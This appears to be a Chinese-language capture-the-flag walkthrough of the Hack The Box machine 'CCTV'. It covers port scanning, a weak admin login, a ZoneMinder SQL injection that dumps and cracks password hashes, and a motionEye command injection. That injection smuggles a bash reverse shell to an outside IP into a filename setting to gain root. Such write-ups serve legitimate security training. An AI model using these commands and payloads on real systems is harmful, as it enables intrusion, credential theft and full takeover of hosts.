# HTB Season 10 - CCTV 

## 信息收集

### 端口扫描

```shell
nmap -p- --min-rate 5000 -T4 10.129.242.241
```

```
Nmap scan report for 10.129.242.241
Host is up (0.25s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 48.76 seconds
```

```shell
nmap -sC -sV -p 22,80 10.129.242.241
```

```
Nmap scan report for 10.129.242.241
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://cctv.htb/
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.83 seconds
```

### 目录扫描

```shell
dirsearch -u http://cctv.htb
```



### 弱口令

进入网站后，发现提供跳转后台登录的按钮



使用弱口令`admin:admin`登录成功



### ZM漏洞利用

ZoneMinder 是一个开源的视频监控系统，提供了视频监控、报警、记录等功能。

该ZM版本为1.37.63符合CVE-2024-51482`Boolean-based SQL Injection in ZoneMinder v1.37.* <= 1.37.64`的利用条件

参考链接`https://www.seebug.org/vuldb/ssvid-99894`

#### sqlmap

```shell
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' --cookie="zmSkin=classic;zmCSS=base; ZMSESSID=if4l9t122u4lgsouepat9ernua" --batch
```



#### poc脚本

`https://github.com/plur1bu5/CVE-2024-51482-PoC`

##### 枚举数据库

```shell
python poc.py -t http://cctv.htb/zm -u admin -p admin --dbs --delay 3 --threads 5
```



##### 枚举表

```shell
python poc.py -t http://cctv.htb/zm -u admin -p admin -D zm --tables --delay 3 --threads 5
```

```
[*] Target: http://cctv.htb/zm
[*] Delay: 3s | Threads: 5
[+] Authenticated as admin
[*] Testing vulnerability...
[+] Target is VULNERABLE!

[*] Enumerating tables in 'zm'...
    [1] Config
    [2] ControlPresets
    [3] Controls
    [4] Devices
    [5] Event_Data
    [6] Event_Summaries
    [7] Events
    [8] Events_Archived
    [9] Events_Day
    [10] Events_Hour                  
    [11] Events_Month                        
    [12] Events_Tags
    [13] Events_Week
    [14] Filters
    [15] Frames
    [16] Groups
    [17] Groups_Monitors
    [18] Groups_Permissions
    [19] Logs
    [20] Manufacturers
    [21] Maps
    [22] Models
    [23] MonitorPresets
    [24] Monitor_Status
    [25] Monitors
    [26] Monitors_Permissions
    [27] MontageLayouts
    [28] Object_Types
    [29] Reports
    [30] Server_Stats
    [31] Servers
    [32] Sessions
    [33] Snapshots
    [34] Snapshots_Events
    [35] States
    [36] Szats
    [37] Storage
    [38] Tags
    [39] TriggersX10
    [40] User_Preferences
    [41] Users
    [42] ZonePresets
    [43] Zones

[+] Found 43 tables
```

##### 导出Users表

```shell
python poc.py -t http://cctv.htb/zm -u admin -p admin -D zm -T Users --dump --delay 3 --threads 5
```

```
======================================================================================================================================================================================================================================================================
| APIEnabled | Control | Devices | Email | Enabled | Events | Groups | HomeView | Id | Language | MaxBandwidth | Monitors | Name  | Password                                                     | Phone | Snapshots | Stream | System | TokenMinExpiry | Username   |
======================================================================================================================================================================================================================================================================
| 1          | Edit    | Edit    |       | 1       | Edit   |        | console  | 3  |          |              | Create   |       | $2y$10$cmytVWFhnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm |       | Edit      | View   |        | 0              | admin      |
| 1          | Edit    | Edit    |       | 1       | Edit   |        | console  | 2  |          |              | Create   | mark  | $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. |       | None      | View   |        | 0              | mark       |
| 1          | Edit    | Edit    |       | 1       | Edit   |        | console  | 1  |          |              | Create   | admin | $2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m |       | None      | View   |        | 0              | superadmin |
======================================================================================================================================================================================================================================================================
```

`superadmin:$2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m`
`admin:$2y$10$cmytVWFhnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm`
`mark:$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.`

#### hash破解

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```
$2a$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.:opensesame
$2a$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m:admin
```

### ssh 登录

使用`mark`账号登录ssh

```shell
ssh mark@cctv.htb
```



### 端口分析

sudo和suid无可利用，上linpeas发现多个内部端口



其中8765端口是motionEye服务，查看systemd配置文件，该服务由root用户启动

```shell
cat /etc/systemd/system/motioneye.service
```



查看配置文件

```shell
cat /etc/motioneye/motion.conf
```

发现motionEye服务启用web管理



### motion漏洞利用

使用ssh搭建隧道，将远程8765端口映射到本地8765端口

```shell
ssh -L 8765:127.0.0.1:8765 mark@cctv.htb
```

kali 上访问`http://localhost:8765`，发现motionEye版本为0.43.1b4,motion版本为4.7.1



该版本存在CVE-2025-60787(RCE)漏洞，利用该漏洞可以获取root权限

#### 提权

1. 开启图片输出

```shell
curl "http://127.0.0.1:7999/1/config/set?picture_output=on"
```



2. 反弹shell

```shell
curl "http://127.0.0.1:7999/1/config/set?picture_filename=%24%28bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.44%2F4444%200%3E%261%27%29"
```



3. 触发反弹shell

```shell
curl "http://127.0.0.1:7999/1/config/set?emulate_motion=on"
```



### flag

`mark:8dd029b2100364504e1fdd7da76cd060`
`root:85fa594299cc8972eef52ba7743a60dc`
